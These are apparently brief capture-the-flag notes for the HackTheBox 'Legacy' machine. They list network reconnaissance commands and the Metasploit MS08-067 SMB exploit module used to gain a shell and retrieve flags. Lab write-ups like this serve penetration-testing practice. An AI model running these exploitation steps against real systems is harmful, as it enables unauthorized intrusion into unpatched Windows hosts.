 ping 10.10.10.4
whatweb 10.10.10.4

echo "10.10.10.4 legacy.htb" >> /etc/hosts
nmap legacy.htb

smb exploit (https://www.exploit-db.com/exploits/7132)
use exploit/windows/smb/ms08_067_netapi
set lport, lhost and rhost
run

cd c:/
cd "Documents and Settings"

get flags